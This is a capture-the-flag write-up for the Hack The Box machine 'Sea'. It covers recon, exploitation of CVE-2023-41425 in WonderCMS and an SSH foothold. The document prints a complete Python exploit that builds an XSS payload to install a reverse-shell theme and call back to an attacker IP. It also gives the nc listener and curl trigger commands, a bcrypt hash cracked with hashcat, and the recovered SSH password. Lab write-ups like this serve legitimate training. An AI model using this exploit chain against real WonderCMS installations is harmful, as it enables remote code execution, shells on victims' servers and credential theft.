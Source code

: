 # Sea Write-up

<img src="https://labs.hackthebox.com/storage/avatars/0011f6725aed869f8683589cb08c90d0.png" width="200" height="200">

## Recon 

### Port enumeration with Nmap

`nmap -sC -sV 10.10.11.28`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
    |   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
    |_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41
    |_http-title: Sea - Home
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    Service Info: Host: sea.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add `sea.htb` to `/etc/hosts`

    echo "10.10.11.28 sea.htb" | sudo tee -a /etc/hosts 

![image](https://github.com/user-attachments/assets/f9dac408-58f9-4866-8962-edfa1ce692e9)

### Directory enumeration with Dirsearch

`python3 dirsearch.py -e php,html,js -u http://sea.htb 404,403,401,307`
                                      
    200 -    3KB - /404                                                                                   
    200 -    3KB - /contact.php                                      
    301 -  228B  - /data  ->  http://sea.htb/data/                                                       
    301 -  232B  - /messages  ->  http://sea.htb/messages/                                     
    301 -  231B  - /plugins  ->  http://sea.htb/plugins/             
    301 -  230B  - /themes  ->  http://sea.htb/themes/                   

![image](https://github.com/user-attachments/assets/fc57769e-68e8-428d-a7be-641db54399e1)

And so we found the directory `/themes/` where we don't have access. Let's try to find directories in this section as well

With using `directory-list-2.3-medium.txt` wordlist.

`python3 dirsearch.py -e php,html,js -u http://sea.htb/themes 404,403,401,307 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

    200 -    4KB - /themes/home                                      
    200 -    3KB - /themes/404                                       
    301 -  235B  - /themes/bike  ->  http://sea.htb/themes/bike/

![image](https://github.com/user-attachments/assets/f354c8b8-084e-4394-87b7-a8e128c3c87a)

Try again for `/themes/bike/` directory
   
`python3 dirsearch.py -e php,html,js -u http://sea.htb/themes/bike/ 404,403,401,307 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

    200 -    6B  - /themes/bike/version                              
    301 -  239B  - /themes/bike/img  ->  http://sea.htb/themes/bike/img/
    200 -    4KB - /themes/bike/home
    301 -  239B  - /themes/bike/css  ->  http://sea.htb/themes/bike/css/
    200 -   66B  - /themes/bike/summary                              
    200 -    3KB - /themes/bike/404                                  
    200 -    1KB - /themes/bike/LICENSE    

Let's check `sea.htb/themes/bike/LICENSE` and `sea.htb/themes/bike/summary`

![image](https://github.com/user-attachments/assets/7f3da3a7-1a99-4407-afbc-d589a8d3f5d2)

![image](https://github.com/user-attachments/assets/850e7ee9-d03c-46a2-bf53-07aa681a5a62)

## Exploitation

### CVE-2023-41425

Cross Site Scripting vulnerability in Wonder CMS v.3.2.0 thru v.3.4.2 allows a remote attacker to execute arbitrary code via a crafted script uploaded to the installModule component.

Exploit: Wondercms 4.3.2 XSS to RCE

    import sys
    import requests
    import os
    import bs4
    
    if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
    else:
      data = '''
    var url = "'''+str(sys.argv[1])+'''";
    if (url.endsWith("/")) {
     url = url.slice(0, -1);
    }
    var urlWithoutLog = url.split("/").slice(0, -1).join("/");
    var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
    var token = document.querySelectorAll('[name="token"]')[0].value;
    var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
    var xhr3 = new XMLHttpRequest();
    xhr3.withCredentials = true;
    xhr3.open("GET", urlRev);
    xhr3.send();
    xhr3.onload = function() {
     if (xhr3.status == 200) {
       var xhr4 = new XMLHttpRequest();
       xhr4.withCredentials = true;
       xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
       xhr4.send();
       xhr4.onload = function() {
         if (xhr4.status == 200) {
           var ip = "'''+str(sys.argv[2])+'''";
           var port = "'''+str(sys.argv[3])+'''";
           var xhr5 = new XMLHttpRequest();
           xhr5.withCredentials = true;
           xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
           xhr5.send();
           
         }
       };
     }
    };
    '''
      try:
        open("xss.js","w").write(data)
        print("[+] xss.js is created")
        print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
        print("----------------------------\n")
        XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
        XSSlink = XSSlink.strip(" ")
        print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
        print("----------------------------\n")
    
        print("\nstarting HTTP server to allow the access to xss.js")
        os.system("python3 -m http.server\n")
      except: print(data,"\n","//write this to a file")

Clone from github

    git clone https://github.com/prodigiousMind/CVE-2023-41425

Run the exploit and get the shell

    python3 exploit.py http://sea.htb/themes/ 10.10.14.11 4444

    rlwrap nc -nlvp 4444

    curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.11&lport=4444'

![image](https://github.com/user-attachments/assets/19b772ec-4df9-4e14-ae4e-f2ee2b26564b)

![image](https://github.com/user-attachments/assets/e5e9ae5a-d9f1-4f91-baa0-82e10279429f)

![image](https://github.com/user-attachments/assets/4d290636-9b9a-4eae-999b-638138e681ab)

    cd /var/www/sea/data
    
    сat database.js | grep password

![image](https://github.com/user-attachments/assets/817e4a2e-3405-4329-9099-342adc7a4747)

hash `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`

    echo -n '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' > hash.txt

    hashcat -m 3200 -a 0 hash.txt /home/kali/wordlist/rockyou.txt 

![image](https://github.com/user-attachments/assets/d5277a85-d87f-43cc-a22a-08d6c405a9c9)

`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q`:`mychemicalromance`

### SSH

Connet to SSH with `amay`:`mychemicalromance` credentials

ssh amay@sea.htb

## Get the user flag!

![image](https://github.com/user-attachments/assets/0c9d2c75-78ba-42e1-a255-de032d0c9076)

## Privilege Escalation

netstat

![image](https://github.com/user-attachments/assets/ecc3a342-afa2-45df-96fc-c9c74e062c18)

ssh -L 8888:localhost:8080 amay@sea.htb

![image](https://github.com/user-attachments/assets/2c1944aa-5ab1-4b39-bf32-347224052a5c)

![image](https://github.com/user-attachments/assets/a28c03fd-c6de-4f11-ad04-c10e51f3dc4c)

Use amay's credentials `amay`:`mychemicalromance`

![image](https://github.com/user-attachments/assets/34de5860-9986-4873-a5f8-e0cdd1108884)

![image](https://github.com/user-attachments/assets/cf4b823d-6bb2-4f6c-b832-b9c60f0beeab)

![image](https://github.com/user-attachments/assets/26f51839-0b6a-4706-9caf-f5dd0a0c4d72)

![image](https://github.com/user-attachments/assets/2b3bc0da-f620-4132-81b5-1d664574d81c)
